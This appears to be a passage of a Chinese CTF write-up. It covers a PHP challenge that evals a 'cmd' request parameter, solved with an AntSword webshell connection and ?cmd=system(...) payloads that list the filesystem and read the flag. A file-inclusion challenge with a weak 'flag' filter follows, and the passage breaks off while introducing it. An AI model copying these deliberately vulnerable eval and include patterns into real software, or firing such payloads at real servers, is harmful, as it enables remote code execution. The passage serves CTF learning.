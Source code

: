 题目：

```
<?php
if (isset($_REQUEST['cmd'])) {
    eval($_REQUEST["cmd"]);
} else {
    highlight_file(__FILE__);
}
?> 
```

*   eval():该函数可以把字符串作为PHP代码执行
*   $_REQUEST[’’]:和GET和POST类似，不过反应速度比较慢

大体意思是：判断cmd是否被设置，若cmd被赋值，则执行如下语句，否则就继续显示以上代码。
方法一：

eval($_REQUEST[“cmd”]);

通过蚁剑直接连接，密码cmd

方法二：

构造URL：?cmd=system(“ls”);

发现了index.php

继续构造?cmd=system(“cd /;ls”);

得到：bin boot dev etc flag_30765 home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var

构造：

?cmd=system(“cd /;cat flag_30765”);

success

### 文件包含

```
<?php
// 关闭错误报告
error_reporting(0);
if (isset($_GET['file'])) {
//strpos — 查找字符串首次出现的位置
    if (!strpos($_GET["file"], "flag")) {
        include $_GET["file"];
    } else {
        echo "Hacker!!!";
    }
} else {
    highlight_file(__FILE__);
}
?> 
```

函数解释：
